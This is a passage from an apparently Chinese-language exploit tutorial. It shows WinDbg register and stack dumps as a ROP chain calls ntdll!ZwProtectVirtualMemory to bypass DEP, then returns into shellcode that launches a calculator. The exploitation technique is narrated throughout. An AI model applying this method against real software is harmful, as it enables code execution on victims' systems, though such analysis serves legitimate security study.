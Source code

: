 	776827c5 c3 ret

	WARNING: Stack pointer is outside the normal stack bounds. Stack unwinding can
	be inaccurate.

	0:005> dd esp

	05ac92c0 776a5f18 048563b4 ffffffff 05ac92e0

	05ac92d0 04801268 00000040 0480125c 0000008a

	05ac92e0 048563b4 00010400 048563b4 00000000

	05ac92f0 7dafed29 880097d8 6d7f5504 05a7f958

	05ac9300 00000001 00000000 7dafed16 8800ed54

	05ac9310 6d7f5504 05a7fa38 00000001 00000000

	05ac9320 7dafed13 88000000 6d7f5504 05a7fb18

	05ac9330 00000001 00000000 7dafed10 880098da

可以看到当前esp为ntdll!ZwProtectVirtualMemory函数的地址，接下去的ret就会直接到这个函数，并且所有的参数都已经布置完毕。

	0:005> p

	WARNING: Stack pointer is outside the normal stack bounds. Stack unwinding can
	be inaccurate.

	eax=0000008a ebx=04801268 ecx=0480125c edx=00000040 esi=048563b4 edi=776a5f18

	eip=776a5f18 esp=05ac92c4 ebp=ffffffff iopl=0 nv up ei pl nz ac po cy

	cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000213

	ntdll!ZwProtectVirtualMemory:

	776a5f18 b8d7000000 mov eax,0D7h

运行完ntdll!ZwProtectVirtualMemory函数之后的ret根据esp返回的就是shellcode的位置。并且因为我们用了ntdll!ZwProtectVirtualMemory函数，所以绕过了dep，可以正常的执行数据。这样就可以完成rop链的创建。继续往下走就会弹出计算器。

	0:005> p

	WARNING: Stack pointer is outside the normal stack bounds. Stack unwinding can
	be inaccurate.

	eax=00000000 ebx=04801268 ecx=05ac92c0 edx=776a70b4 esi=048563b4 edi=776a5f18

	eip=776a5f24 esp=05ac92c4 ebp=ffffffff iopl=0 nv up ei pl nz ac po cy

	cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000213

	ntdll!ZwProtectVirtualMemory+0xc:

	776a5f24 c21400 ret 14h

	WARNING: Stack pointer is outside the normal stack bounds. Stack unwinding can
	be inaccurate.

	0:005> dd esp

	05ac92c4 048563b4 ffffffff 05ac92e0 04801268
